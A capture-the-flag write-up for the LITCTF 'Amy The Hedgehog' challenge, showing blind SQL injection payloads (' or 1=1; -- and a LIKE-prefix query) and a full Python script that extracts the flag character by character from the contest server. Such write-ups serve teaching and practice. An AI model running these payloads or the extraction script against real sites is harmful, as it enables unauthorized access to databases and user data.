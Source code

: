 # Amy The Hedgehog
> Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3
> ( ◡‿◡ \*)

## Identifying the vulnerability
Sending a random string to the server returns the text `wrong!!! (｡•̀ᴗ-)✧`. Let's try SQL injection by closing the string and using `union` operator:
```sql
' or 1=1; --
```
This time we get a different response: `(≧U≦❁) You got it!!!`. This means that the website is vulnerable to blind SQL injection.

## Exploiting the vulnerability
We can use Python with requests module to automate the process of guessing subsequent characters of the flag with the help of `like` operator. The idea is simple: we send payloads like:
```sql
' or name like 'tested_flag_prefix%' ESCAPE "$"; --
```
If the flag starts with `tested_flag_prefix`, we receive the "You got it" response, otherwise we get "wrong!!!" response. This way we can eventually retrieve the whole flag. We mustn't forget though to escape meta-characters used by `like` operator (we know that the database is SQLite and therefore we must define our own escaping character using `ESCAPE "$"`).
The following Python script retrieves the flag:
```py
import requests
from string import printable

flag = 'LITCTF{'

while flag[-1] != '}':
	for c in printable:
		print(f'Trying {flag + c}')
		char = c if c not in ('%', '_', '$') else f'${c}'
		r = requests.post(
			'http://litctf.live:31770/',
			data={
				'name': f'\' or name like \'{flag + char}%\' ESCAPE "$"; -- '
			}
		)
		if 'wrong' not in r.text:
			flag += c
			break
	else:
		print('Char not found!')
```

## Flag
`LITCTF{sldjf}`
